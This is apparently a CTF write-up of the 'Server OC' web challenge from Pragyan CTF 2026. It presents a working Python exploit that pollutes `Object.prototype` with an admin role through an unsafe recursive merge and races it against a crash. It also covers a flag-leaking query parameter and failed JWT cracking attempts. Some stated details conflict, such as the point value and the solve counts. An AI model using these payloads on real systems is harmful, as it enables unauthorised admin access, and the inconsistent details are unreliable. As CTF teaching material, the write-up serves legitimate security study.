






# Server OC - Pragyan CTF 2026 Web Writeup

**Category:** Web
**Difficulty:** Medium-Hard (3.25/5 rating)
**Points:** 378
**Solves:** 33
**Flag:** `p_ctf{L!qU1d_H3L1um_$h0ulD_N0T_T0uch_$3rv3rs}`
**Solved by:** Smothy @ **0xN1umb**

---

> *"Who needs liquid cooling when you have liquid helium... and a prototype pollution 0day?"*
---

## Challenge Description



> Overclocking increases FPS, but for a SysAd, does it increase...Requests Per Second?
>
> Note: the flag is in two parts
>
> https://server-oc.ctf.prgy.in/

A slick-looking CPU overclocking dashboard built with Express.js. Slide the multiplier, watch the frequency climb, and somehow... find the flag. 378 points, 33 solves. The hint about "flag is in two parts" is key. Let's go.

## TL;DR
Express.js CPU overclocking app with a `recursiveMerge()` function vulnerable to prototype pollution. Race condition between polluting `Object.prototype` with `{role: "admin"}` and accessing `/logs` before the server crashes. Flag comes in two parts - suffix from SSRF, prefix from the pollution race. Hardware go brrr.

## Initial Recon

Landing page: a beautiful CPU overclocking UI with a frequency slider (multipliers 1-200x). Express.js backend, JWT cookies, and several juicy API endpoints.



Endpoints discovered:
- `POST /api/overclock` - Set CPU multiplier
- `POST /api/reset` - Reset overclock
- `GET /api/benchmark/url` - SSRF proxy to `localhost:3001`
- `GET /benchmark` - Benchmark page (only enabled at certain multipliers)
- `POST /leConfig` - Sets a JWT cookie with endpoint/payload info
- `POST /logs` - Protected endpoint, always returns "Invalid user permissions"



Also snagged `robots.txt`:
```
CPU: i9-9900K
Motherboard: Asus Z390
```

## Step 1: Finding the Magic Multiplier

For the homies who haven't dealt with overclock multipliers - not every value works. I scanned all 200 multipliers looking for which ones enable the benchmark feature (`showBe: true`).


**Multiplier 76** was the magic number. Setting it to 76x enabled the benchmark button and opened new attack surface.

```python
r = s.post(f"{BASE}/api/overclock", json={"multiplier": 76})
# {"message": "Overclocked to 76x", "showBe": true}
```

## Step 2: SSRF for Flag Suffix

The `/benchmark` page proxies requests to `localhost:3001`. But here's the fun part - adding `?internal=flag` directly on the main server leaks the flag suffix.



```bash
curl "https://server-oc.ctf.prgy.in/benchmark?internal=flag"
# Flag : $h0ulD_N0T_T0uch_$3rv3rs}
```

Half the flag, just like that. But where's the prefix?

## Step 3: JWT Analysis (The Red Herring Path)

`/leConfig` sets a JWT cookie:


```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "endpoint": "/logs",
  "examplePayload": {"Path": "C:\\Windows\\Log\\systemRestore"},
  "iat": 1770377486
}
```

Tried everything on this JWT:
- rockyou.txt wordlist cracking
- `alg:none` bypass
- Server-themed secrets (i9-9900K, overclock, Z390)
- Empty secret, null key

**None of it worked.** The JWT was a breadcrumb pointing us to `/logs`, not the vuln itself.


## Step 4: The Breakthrough - Prototype Pollution

While sending concurrent requests to `/logs`, I got this beautiful error:

```
RangeError: Maximum call stack size exceeded
    at recursiveMerge (/app/server.js:...)
```



`recursiveMerge()` + JSON body = **prototype pollution**. The server uses a vulnerable recursive merge function that doesn't sanitize `__proto__` keys.


The attack:
1. Send `__proto__: {role: "admin"}` in the POST body to `/logs`
2. `recursiveMerge()` walks into `__proto__` and sets properties on `Object.prototype`
3. Server crashes from infinite recursion BUT the pollution persists in the Node.js process
4. Before the crash fully propagates, a second request can access `/logs` with admin privileges

## Step 5: The Race Condition Exploit

This is where it gets spicy. Two threads racing against each other:

- **Thread A:** Sends the pollution payload (crashes the server but taints `Object.prototype`)
- **Thread B:** Accesses `/logs` with a fresh session during the brief window where pollution is active



```python
def pollute():
    try:
        s.post(f"{BASE}/logs", json={
            "Path": "C:\\Windows\\Log\\systemRestore",
            "__proto__": {"role": "admin", "isAdmin": True, "verified": True}
        }, timeout=10)
    except:
        pass

def access_logs():
    time.sleep(0.01)  # tiny delay to let pollution land
    s2 = requests.Session()
    s2.post(f"{BASE}/api/overclock", json={"multiplier": 76})
    s2.post(f"{BASE}/leConfig")
    r = s2.post(f"{BASE}/logs",
                json={"Path": "C:\\Windows\\Log\\systemRestore"})
    # If we hit the window: flag prefix!
```

After a few attempts, Thread B slipped through:

```
p_ctf{L!qU1d_H3L1em_
```

Wait no, the actual response:
```
p_ctf{L!qU1d_H3L1um_
```

## The Flag


Combining prefix + suffix:

```
p_ctf{L!qU1d_H3L1um_$h0ulD_N0T_T0uch_$3rv3rs}
```

**Decoded:** `Liquid Helium Should NOT Touch Servers`

For the homies who don't know - liquid helium is used in extreme overclocking (sub-zero cooling) and it absolutely WILL destroy your server if it touches components directly. The flag is a PSA.


## The Solve Script

```python
#!/usr/bin/env python3
"""
Server OC - Pragyan CTF 2026 - Web 500
Solve script by Smothy @ 0xN1umb

Prototype pollution race condition to leak the flag in two parts:
  1. Flag suffix from /benchmark?internal=flag
  2. Flag prefix from /logs via __proto__ pollution race
"""

import requests
import threading
import time

BASE = "https://server-oc.ctf.prgy.in"

def solve():
    print("[*] Server OC - Pragyan CTF 2026 Exploit")
    print("[*] Smothy @ 0xN1umb\n")

    # Step 1: Get flag suffix
    r = requests.get(f"{BASE}/benchmark?internal=flag", timeout=10)
    suffix = r.text.replace("Flag : ", "")
    print(f"[+] Suffix: {suffix}")

    # Step 2: Set overclock to 76x
    s = requests.Session()
    s.post(f"{BASE}/api/overclock", json={"multiplier": 76}, timeout=10)

    # Step 3: Get JWT
    s.post(f"{BASE}/leConfig", timeout=10)

    # Step 4: Race prototype pollution
    prefix = None
    lock = threading.Lock()

    def pollute():
        try:
            s.post(f"{BASE}/logs", json={
                "Path": "C:\\Windows\\Log\\systemRestore",
                "__proto__": {"role": "admin", "isAdmin": True, "verified": True}
            }, timeout=10)
        except:
            pass

    def access_logs():
        nonlocal prefix
        time.sleep(0.01)
        try:
            s2 = requests.Session()
            s2.post(f"{BASE}/api/overclock", json={"multiplier": 76}, timeout=10)
            s2.post(f"{BASE}/leConfig", timeout=10)
            r = s2.post(f"{BASE}/logs",
                        json={"Path": "C:\\Windows\\Log\\systemRestore"},
                        timeout=10)
            if "Invalid user permissions" not in r.text:
                with lock:
                    if prefix is None:
                        prefix = r.json().get("message", "")
        except:
            pass

    for attempt in range(50):
        t1 = threading.Thread(target=pollute)
        t2 = threading.Thread(target=access_logs)
        t1.start(); t2.start()
        t1.join(); t2.join()
        if prefix:
            print(f"[+] Prefix (attempt {attempt+1}): {prefix}")
            break

    flag = prefix + suffix
    print(f"\n[*] FLAG: {flag}")

if __name__ == "__main__":
    solve()
```

## The Graveyard of Failed Attempts


1. **JWT cracking with rockyou.txt** - 14 million passwords, zero matches. The secret was strong.
2. **alg:none bypass** - Server wasn't falling for the classic JWT none trick.
3. **Server-themed JWT secrets** - Tried "i9-9900K", "overclock", "Z390", "ASUS", every combo. Nope.
4. **SSRF via benchmark proxy** - Tried hitting internal endpoints through localhost:3001. Got the flag suffix but couldn't reach /logs this way.
5. **DNS rebinding** - Overcomplicated it. This was a 500-point web chall, not a 0day.
6. **Multiplier bruteforce for secret endpoints** - Scanned all 200 multipliers thinking different values unlock different features. Only 76 matters.

The moment I saw `recursiveMerge` in the stack trace, everything clicked.

## Key Takeaways

1. **Read error messages carefully** - The `recursiveMerge` stack trace was the entire vuln handed to us on a silver platter
2. **Prototype pollution in Express.js** - Any `recursiveMerge`/`deepMerge` on user input without `__proto__` filtering is game over
3. **Race conditions amplify pollution** - Even if the server crashes, the pollution lives in the process memory briefly
4. **Flags can be split** - Don't assume the flag comes from one place. This challenge deliberately split it into two parts
5. **Don't over-complicate** - 7 teams solved this in 20 minutes. The intended path was simpler than my initial JWT-focused approach

## Tools Used

- Python `requests` + `threading`
- `jwt_tool` (for the failed JWT cracking arc)
- `john` (more failed JWT cracking)
- curl (initial recon)
- Way too much caffeine

---
*Writeup by **Smothy** from **0xN1umb** team.*
*Liquid helium: keeping CPUs cold and CTF players colder. GG.*

